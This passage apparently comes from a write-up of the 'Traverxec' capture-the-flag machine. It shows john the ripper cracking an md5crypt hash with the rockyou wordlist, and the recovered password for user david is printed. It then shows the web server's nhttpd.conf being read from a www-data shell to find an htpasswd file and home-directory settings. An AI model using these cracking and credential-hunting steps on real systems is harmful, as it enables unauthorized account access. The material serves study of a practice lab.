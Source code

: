 You can also use john, but let me empty my pot file first:
```shell
❯ find / -name 'john.pot' 2>/dev/null
/home/wixnic/.john/john.pot
❯ echo '' > ~/.john/john.pot
```

Now we can use john:
```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:22 DONE (2021-10-17 18:47) 0.04411g/s 466626p/s 466626c/s 466626C/s Noyoudo..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Looking at the nostromo configuration file `nhttpd.conf`:
```shell
www-data@traverxec:$ cd /var/nostromo/conf
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
